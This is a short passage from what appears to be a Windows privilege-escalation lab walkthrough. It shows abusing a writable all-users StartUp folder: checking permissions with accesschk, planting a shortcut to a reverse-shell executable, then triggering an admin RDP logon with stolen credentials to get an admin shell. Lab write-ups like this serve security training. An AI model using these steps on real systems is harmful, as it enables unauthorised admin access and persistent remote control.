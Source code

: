 Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
cscript C:\PrivEsc\CreateShortcut.vbs
Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:
rdesktop -u admin MACHINE_IP
A shell running as admin should connect back to your listener.
